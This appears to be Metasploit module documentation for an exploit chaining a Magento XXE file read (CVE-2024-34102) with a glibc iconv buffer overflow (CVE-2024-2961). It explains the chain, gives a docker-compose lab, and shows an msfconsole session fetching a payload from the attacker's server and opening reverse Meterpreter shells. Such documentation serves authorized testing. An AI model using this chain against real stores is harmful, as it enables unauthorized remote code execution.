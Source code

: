 ## Vulnerable Application
This combination of an Arbitrary File Read (CVE-2024-34102) and a Buffer Overflow in glibc (CVE-2024-2961)
allows for unauthenticated Remote Code Execution on the following versions of Magento and Adobe Commerce and
earlier if the PHP and glibc versions are also vulnerable:
  - 2.4.7 and earlier
  - 2.4.6-p5 and earlier
  - 2.4.5-p7 and earlier
  - 2.4.4-p8 and earlier

Vulenerable PHP versions:
  - From PHP 7.0.0 (2015) to 8.3.7 (2024)

Vulnerable iconv() function in the GNU C Library:
  - 2.39 and earlier

The exploit chain is quite interesting and for more detailed information I suggest reading the links in the
references. I'll give a very brief over view. CVE-2024-34102 is and XML External Entity vulnerability which
leverages PHP filters to read arbitrary files off the target system. The exploit chain uses this to read
/proc/self/maps off the system which provides the address of PHP's heap and the filename of the libc. Then
using the file read again the libc binary is downloaded and the exploit extracts the address and offset of the
following functions which are used to write the payload: libc_malloc, libc_system and libc_realloc.

With this information and expert knowledge of PHP, it's: chunks, free lists, buckets, bucket brigades and how
all such things are are stored in memory and affected by PHP filters, CVE-2024-2961 can then be exploited. A
long chain of PHP filters is constructed and sent in the same way the XXE is exploited which allows for; a
payload to be written to memory and for the buffer overflow to be exploited in order to redirect execution to
obtain RCE.

### Setup

The following docker-compose file can be used to test this module. There are a few things that need to be noted:
1. cURL is not installed by default in the target container, in order for a fetch payload to be successful run the
   following once the container has been started:
```
   docker exec -it magento_magento_1 bash 
   root@13c538f53068:/# apt update; apt install curl -y
```
2. The docker-compose file sets magento server's name to `localhost` and in order to exploit the container `rhost` must
   be set to `localhost` (setting `rhost` to `127.0.0.1` or your local IP address will not work for this docker-compose file)
   and so given this configuration `msfconsole` must be running on the same host as the container.
3. The network settings on my macbook didn't allow me to exploit this locally so I was running the containers and
   `msfconsole` from an Ubuntu 22.04 VM.

```
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'old_mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2.4.7-debian-12-r0
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'old_magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'old_elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  old_mariadb_data:
    driver: local
  old_magento_data:
    driver: local
  old_elasticsearch_data:
    driver: local
```

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `SRVHOST` and `LHOST` options
1. Run the module
1. Receive 3 Meterpreter sessions as the `daemon` user.

## Scenarios
### 
```
msf6 > use magento_xxe_to_glibc_buf_overflow

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/magento_xxe_to_glibc_buf_overflow  1970-01-01       excellent  No     CosmicSting: Magento Arbitrary File Read (CVE-2024-34102) + PHP Buffer Overflow in the iconv() function of glibc (CVE-2024-2961)


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/magento_xxe_to_glibc_buf_overflow

[*] Using exploit/linux/http/magento_xxe_to_glibc_buf_overflow
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set srvhost 172.16.199.130
srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set fetch_srvhost 172.16.199.130
fetch_srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set rhost localhost
rhost => localhost
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > run 
[*] Exploit running as background job 6.

[*] Started reverse TCP handler on 172.16.199.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using URL: http://172.16.199.130:8080/
[*] Server started
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > 
[+] Exploit precondition 1/3 met: Detected Magento Community edition version 2.4 which is vulnerable.
[+] Exploit precondition 2/3 met: PHP appears to be exploitable.
[+] Exploit precondition 3/3 met: glibc is version: 2.36
[+] The target appears to be vulnerable.
[*] Attempting to parse libc to extract necessary symbols and addresses
[*] Attempting to build an exploit PHP filter path with the information extracted from libc and /proc/self/maps
[*] Sending payload...
[*] Sending stage (3045380 bytes) to 172.25.0.4
[*] Sending stage (3045380 bytes) to 172.25.0.4
[*] Sending stage (3045380 bytes) to 172.25.0.4
[*] Meterpreter session 4 opened (172.16.199.130:4444 -> 172.25.0.4:41354) at 2024-10-09 11:26:31 -0700
[*] Meterpreter session 5 opened (172.16.199.130:4444 -> 172.25.0.4:41366) at 2024-10-09 11:26:31 -0700
[*] Meterpreter session 6 opened (172.16.199.130:4444 -> 172.25.0.4:41370) at 2024-10-09 11:26:31 -0700
[*] Server stopped.

msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > sessions -i -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: daemon
meterpreter > sysinfo
Computer     : 172.25.0.4
OS           : Debian 12.5 (Linux 6.8.0-45-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```